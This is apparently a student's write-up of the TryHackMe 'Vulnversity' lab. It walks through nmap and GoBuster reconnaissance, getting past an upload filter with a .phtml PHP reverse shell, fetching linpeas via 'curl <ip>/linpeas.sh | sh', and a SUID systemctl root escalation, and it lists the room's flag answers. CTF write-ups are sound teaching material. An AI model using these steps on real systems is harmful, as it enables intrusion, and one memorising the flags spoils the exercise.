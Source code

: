 # Vulnversity

The link to this room can be found [here](https://tryhackme.com/room/vulnversity).

### Task 1: Deploy The Machine

Machine IP: 10.10.77.241
### Task 2: Reconnaissance

1. Scan this box: `nmap -sV 10.10.77.241`.

   This command will scan the machine with the specified IP using nmap, determining what are the versions of the running services. Questions 2, 3, 6 and 7 can be answered by simply analyzing the [scan results](https://github.com/pamhrituc/TryHackMe_Writeups/blob/master/room_vulnversity/vulnversity_scan_results.log).

2. Scan the box, how many ports are open?

   > 6

3. What version of the squid proxy is running on the machine?

   > 3.5.12

4. How many ports will nmap scan if the flag -p-400 was used?

   > 400

   According to nmap's manual pages (`man nmap`), the -p- flag is used to scan through ports from 1 to 400.

5. Using the nmap flag -n what will it not resolve?

   > DNS

   Also according to nmap's manual pages, the -n flag can be used to never do DNS resolution.

6. What is the most likely operating system this machine is running?

   > Ubuntu

   The machine's OS can be found by using the -O flag when scanning the machine. So, this command would be used `nmap -O 10.10.77.241`. Or, looking closely at the previous scan results, notice that the version of SSH used is OpenSSH 7.2p2 Ubuntu 4ubuntu2.7.

7. What port is the web server running on?

   > 3333

   In the scan results, notice that the http service is running on port 3333.

8. Its important to ensure you are always doing your reconnaissance thoroughly before progressing. Knowing all open services (which can all be points of exploitation) is very important, don't forget that ports on a higher range might be open so always scan ports after 1000 (even if you leave scanning in the background)

   > No answer needed

### Task 3: Locating directories using GoBuster

1. Lets first start of by scanning the website to find any hidden directories. To do this, we're going to use GoBuster.

   GoBuster is a tool used to brute-force URIs (directories and files), DNS subdomains and virtual host names. For this machine, we will focus on using it to brute-force directories.
   Download GoBuster [here](https://github.com/OJ/gobuster), or if you're on Kali Linux 2020.1+ run `sudo apt-get install gobuster`.
   To get started, you will need a wordlist for GoBuster (which will be used to quickly go through the wordlist to identify if there is a public directory available. If you are using Kali Linux you can find many wordlists under /usr/share/wordlists.
   Now lets run GoBuster with a wordlist: `gobuster diir -u http://<ip>:3333 -w <word list location>`

   > No answer needed.

   Since I am using Kali Linux, I simply ran the command `gobuster dir -u http://10.10.77.241:3333 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt`. The -u flag is followed by the target URL, the -w flag is followed by the path of the wordlist used. In this case, I used the directory-list-lowercase-2.3-medium.txt file from the /usr/share/wordlists/dirbuster directory.

2. What is the directory that has an upload form page?

   > /internal/

   After leaving GoBuster to scan the website for hidden directories, notice that one of the directories found is named /internal.

![Screenshot of GoBuster](/room_vulnversity/screenshots/gobuster.png?raw=true)

### Task 4: Compromise the webserver

After accessing http://10.10.77.241:3333/internal, the browser will display a page containing a file upload form.

![Screenshot of upload form](/room_vulnversity/screenshots/upload_form.png?raw=true)

1. Try upload a few file types to the server, what common extension seems to be blocked?

   > php

   To see what extensions the server accepts, we can try uploading files manually or by using Burpsuite.

   Mainly, PHP is of interest to us, because PHP is the most common backend programming language used for web applications. 

2. To identify which extensions are not blocked, we're going to fuzz the upload form.

   > No answer needed.

3. We're going to use Intruder (used for automating customised attacks).
   To begin, make a wordlist with the following extensions in:

   ![Screenshot of word list](/room_vulnversity/screenshots/wordlist.png?raw=true)

   Now make sure BurpSuite is configured to intercept all your browser traffic. Upload a file, once this request is captured, send it to the Intruder. Click on "Payloads" and select the "Sniper" attack type.
   Click the "Positions" tab now, find the filename and "Add §" to the extension. It should look like so:

   ![Screenshot of burpsuite](/room_vulnversity/screenshots/burpsuite.png?raw=true)

   Run this attack, what extension is allowed?

   > phtml

4. Now we know what extension we can use for our payload we can progress.
   We are going to use a PHP reverse shell as our payload. A reverse shell works by being called on the remote host and forcing this host to make a connection to you. So you'll listen for incoming connections, upload and have your shell executed which will beacon out to you to control!
   Download the following reverse PHP shell [here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).
   To gain remote access to this machine, follow these steps:
   1. Edit the php-reverse-shell.php file and edit the ip to be your tun0 ip (you can get this by going to http://10.10.10.10 in the browser of your TryHackMe connected device).
   2. Rename this file to php-reverse-shell.phtml
   3. We're now going to listen to incoming connections using netcat. Run the following command: `nc -lvnp 1234`
   4. Upload your shell and navigate to http://<ip>:3333/internal/uploads/php-reverse-shell.phtml - This will execute your payload
   5. You should see a connection on your netcat session

   ![Screenshot of netcat](/room_vulnversity/screenshots/netcat.png?raw=true)

   > No answer needed

   I simply followed the steps described in this question. The reverse shell is successful.

   ![Screenshot of reverse shell](/room_vulnversity/screenshots/reverse_shell.png?raw=true)

5. What is the name of the user who manages the webserver?

   > bill

   Since I have access to the webserver, I simply check what users can be found in the /home directory.

   ![Screenshot of ls cmd](/room_vulnversity/screenshots/ls_cmd.png?raw=true)

6. What is the user flag?

   > 8bd7992fbe8a6ad22a63361004cfcedb

   The user flag is found in the user.txt file from the /home/bill directory.

   ![Screenshot of flag](/room_vulnversity/screenshots/flag.png?raw=true)

### Task 5: Priviledge Escalation

1. In Linux, SUID (**set owner userId upon execution**) is a special type of file permission given to a file. SUID gives temporary permissions to a user to run the program/file with the permission of the file owner (rather than the user who runs it).
   For example, the binary file to change your password has the SUID bit set on it (/usr/bin/passwd). This is because to change your password, it will need to write to the shadowers file that you do not have access to, root does, so it has root privileges to make the right changes.

   ![Screenshot_SUID](/room_vulnversity/screenshots/suid.png?raw=true)

   On the system, search for all SUID files. What file stands out?

   > /bin/systemctl

   Okay, I'm gonna admit, I needed a little help for this one. So, after some research and reading, I found PEASS - Privilege Escalation Awesome Scripts SUITE, download it [here](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite). The script needs to be put on the vulnerable webserver, to perform the enumeration. I started a Python HTTP server on my own machine, using the `python3 -m http.server 80` command and on the webserver, I transfered the file with curl (`curl <my_tun0_ip>/linpeas.sh | sh`).

   ![Screenshot_of_PEASS](/room_vulnversity/screenshots/peass.png?raw=true)

   As shown in the above screenshot, the RED/YELLOW highlights are objects that can be used for PE. After waiting for PEASS to finish running, we find /bin/systemctl in the Interesting Files section.

   ![Screenshot2_of_PEASS](/room_vulnversity/screenshots/peass1.png?raw=true)


2. Its challenge time! We have guided you through this far, are you able to exploit this system further to escalate your privileges and get the final answer?
   Become root and get the last flag (/root/root.txt)

   > a58ff8579f0a9270368d33a9966c7fd5

   Now we need to use /bin/systemctl to become root. For this, I used [GTFOBins](https://gtfobins.github.io/gtfobins/systemctl/). Here's a screenshot of the explanation.

   ![Screenshot_of_GTFOBins](/room_vulnversity/screenshots/gtfobins.png?raw=true)

   After running the above commands, replacing id with the command we want to run as root (`cat /root/root.txt`), we start the service. The flag is written to /tmp/output.
